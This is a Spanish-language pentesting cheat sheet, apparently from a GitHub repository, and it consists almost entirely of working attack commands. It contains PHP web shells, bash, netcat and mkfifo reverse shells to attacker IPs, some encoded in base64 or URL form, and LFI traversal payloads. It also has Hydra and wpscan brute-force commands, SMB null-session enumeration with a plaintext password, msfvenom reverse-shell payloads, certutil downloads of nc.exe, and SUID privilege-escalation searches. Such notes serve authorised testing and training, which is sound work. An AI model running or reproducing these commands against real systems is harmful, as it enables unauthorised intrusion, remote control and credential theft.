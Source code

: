# Chuleta para pentesting

## Compartir con host

```bash
sudo /usr/bin/vmhgfs-fuse .host:/ /home/kali/compartida -o subtype=vmhgfs-fuse,allow_other

```

## PHP

```php
 <?php system($_REQUEST['cmd']); ?>

 <?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```

## Reverse Shells

### En Linux:

```bash
bash -c "bash -i >& /dev/tcp/192.168.168.130/443 0>&1"

# Por http
bash -c "bash -i >%26 /dev/tcp/192.168.168.130/443 0>%261"

#Por base64
#Preparacion en atacante
echo "bash -c 'bash -i >%26 /dev/tcp/192.168.168.130/443 0>%261'" | base64
#Comando victima:
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44Ljc2LjExMi80NDMgMD4mMQo=" | base64 -d | bash

#Con nc
nc -e /bin/sh 92.168.168.130 443

# Con nc sin párametro -e
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.168.130 443 >/tmp/f

# Con php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.168.130 443 >/tmp/f'); ?>

```

### En Windows:

```bash
#Con nc
cmd.exe /c "C:\users\joe\documents\nc.exe -e cmd.exe 192.168.11.160 4444"
```

## Fuzzing

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.11.133/FUZZ



```

## Tratamiento de la TTY

Previamenta al tratamiento hemos de asegirarnos que estamos en una **bash**. Antes de ponernos a la escucha con nc:

```console
echo $SHELL
# Si el resultado no es /bin/bash hay que lanzar bash
bash
# Luego lanzar
nc -nlvp 4444
```

```bash
# En victima:
script /dev/null -c bash
# En python:
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL_Z para pasar a segundo plano
# En atacante
stty raw -echo; fg
# En victima
reset xterm
export SHELL=/bin/bash
export TERM=xterm
# Previamente en atacante stty size para ver las dimensiones
stty rows 59 columns 227
```

## LFI

```bash
# Escapando caracteres
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd%00

# Filtro en BASE64
php://filter/convert.iconv.utf-8.utf-16/resource=test.php
```

## Fuerza bruta

```bash
#Hydra
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.29.199

```

## SMB

```bash
# Listar recursos con sesión nula
smbclient -N -L //10.10.66.180/
# Tambien
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"

# Con smbmap y sesion nula
smbmap -H 10.10.10.1000
smbmap -H 10.10.10.237 -u 'null'
#Para conectar ver lo que tiene un recurso, paramero -r:
smbmap -H 10.10.10.1000 -r Replication
#Para descargarnos algo, parámetro --download
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
#Con credenciales:
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups

#SMBGET: Para descargar un directorio entero:
smbget -R smb://active.htb/Replication -U ""

# Ver unidades montadas
showmount -e 10.10.10.180

# Montar unidad
mount -t nfs 10.10.10.180:/site_backups /mnt/nfs
```

## CMS

### Wordpress

```bash
#Inicial
wpscan --url http://10.10.103.70

# Enumerar usuarios
wpscan --url http://10.10.103.70 -e u

# Buscar plugins vulnerables
wpscan --url http://10.10.103.70 -e vp

# Fuerza bruta
wpscan --url https://10.10.103.70/wp-login.php -U Elliot -P fsocity_sorted.dic
```

## MSFVENOM

```bash
# aplicación war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.11.160 LPORT=443 -f war > reverse.war

# Para BufferOverflow
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.198 LPORT=443 --platform windows -a x86 -b "\x00" -f c

# Como ejecutable para Windows
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```

## Traspaso de archivos

## En linux

```bash
# Abriendo un servidor http
sudo python3 -m http.server 80

# Compartiendo un recurso SMB
```

## En windows

```cmd
certutil.exe -f -urlcache -split http://192.168.11.160/nc.exe c:\\windows\temp\nc.exe
```

## Escalada

### Permisos SUID

```bash
find \-perm -4000 2>/dev/null

find / -perm -4000 2>/dev/null | xargs ls -lah

find / -perm -u=s -type f 2>/dev/null
```

### Capabilities

```bash
getcup -r / 2>/dev/null

```

## Otros

Trazas icmp

```bash
sudo tcpdump -i tun0 icmp -n
```
